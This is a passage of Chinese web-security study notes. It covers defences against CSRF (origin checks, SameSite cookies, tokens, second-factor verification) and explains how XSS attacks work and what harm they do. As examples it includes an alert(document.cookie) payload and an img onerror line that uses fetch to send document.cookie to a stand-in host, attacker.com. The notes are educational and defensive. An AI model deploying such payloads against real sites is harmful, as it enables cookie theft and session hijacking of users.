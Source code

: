 **防御方案**：

- **验证请求的来源，`Referer/Origin`检查是否允许或有效**

  `HTTP`协议中，`Referer`字段会记录请求的来源页面，`Origin`记录请求的来源域名（不含路径）
  **允许`Referer/Origin`为自身域名或可信域名的请求，拒绝为空或非法的请求**、

- **设置`Cookie`信息中的`SameSite`字段，限制跨站请求携带`Cookie`**

  `Strict`：仅允许同源请求携带，`Lax`：允许部分跨站请求，如`GET`请求从链接跳转

- **使用`CSRF Token`令牌验证**

  服务器为每个用户生成一个随机且唯一的`CSRF Token`，并在用户请求时要求携带该令牌（例如请求头）
  安全性高，是目前最主流的防御方案

- **要求额外的身份二次验证**

  对于敏感操作（如转账、修改密码），要求用户提供额外的验证信息
  如密码、短信验证码、人脸识别，即使攻击者伪造了请求，也无法通过二次验证



# 跨站脚本攻击`XSS`

又叫`CSS`，全称`Cross Site Scripting`，：**窃取`Cookie`、篡改页面、监听输入、远程控制**等
**本质是 “输入未验证 + 输出未编码” 导致的脚本注入的“信任滥用”**

常见危害行为：

- **窃取`Cookie`**

  通过`document.cookie`获取用户会话`Cookie`，进而劫持用户登录状态
  如`<script>alert(document.cookie)</script>`

- **篡改页面**

  通过`document.body.innerHTML`修改网页内容，伪装成钓鱼页面（如替换登录按钮链接）

- **监听输入**

  通过`addEventListener`记录用户输入的账号密码（如信用卡信息）

- **远程控制**

  通过`fetch`或`img`标签将窃取的数据发送到攻击者的服务器
  如`<img src=x onerror="fetch('http://attacker.com?data='+document.cookie)">`

无论哪种类型的`XSS`，攻击流程都遵循以下逻辑：

- **注入恶意脚本**

  攻击者通过输入框、`URL`参数、评论区等途径，将恶意脚本（如`<script>stealCookie()</script>`）提交到网页

- **网页接收并 “信任” 输入**

  服务器 / 客户端未对输入进行过滤和编码，直接将恶意脚本包含在网页的`HTML/JavaScript`代码中

- **受害者执行脚本**

  其他用户访问包含恶意脚本的网页时，浏览器将其当作正常代码执行，导致攻击者预设的恶意行为被触发
  如窃取`Cookie`、跳转钓鱼网站

